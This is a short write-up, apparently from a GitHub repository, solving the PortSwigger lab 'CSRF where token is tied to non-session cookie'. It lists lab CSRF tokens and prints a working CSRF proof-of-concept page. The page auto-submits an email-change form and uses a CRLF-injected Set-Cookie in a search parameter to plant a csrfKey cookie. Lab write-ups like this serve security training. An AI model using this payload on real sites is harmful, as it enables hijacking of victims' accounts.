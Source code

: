 ## Lab Description: CSRF where token is tied to non-session cookie


## Solution

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/09d2716c-58a9-4ad8-93b6-af2febc8a33e)


For User Wiener 

csrf: gDbE9aGELpWRSrZzpZEKiBbylXUETUFq
csrfkey: LbMYzTBNpxwMUXksBmrOjPbthEd8Na4f

For User Carlos 

csrf: OVfPpgEizfZ5aZBoTEsroDPgKMNt3YM4
csrf Key: 24uBgd1HRRlHUII7bYBNz7F1lVekHYDc

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8bd8fe0b-5e4a-4a9e-a484-5061cafc35a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6ad8180c-31df-4fdf-b21e-762a9e349ea4)

we are able to change the email test@3123@gmail.com

In order to exploit this vulnerability we need to perform 2 things: 
- Inject a csrfkey cookie in the user session
- Send a csrf  attack to the victim with a known a csrf token

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/21cf1671-4f61-4f81-987f-46b9628f543d)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/614289c9-9d8e-4f47-b3f1-18ee06cd50e8)



we have to add csrf key in request 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/53c90d0f-f534-42a2-8892-2cdf7849f8d0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1cc784c3-31e6-48fa-b0ce-5b97dba3970f)



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');</script>
    <form action="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hii45&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="tUPKneNhIgQi2QfZI41tvlsVR6e53bh4" />
      <input type="submit" value="Submit request" />
    </form>
  <img src="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/?search=hey%0d%0aSet-Cookie:%20csrfKey=SQFZcaxFoVU3URyQrh2buswScSlxyapG%3b%20SameSite=None" onerror="document.forms[0].submit()">
 </body>
</html>

```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c21c852a-8c07-4bef-9760-37ebb0fd3daf)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b19c82f4-c9af-4d10-8528-413e64c64b36)

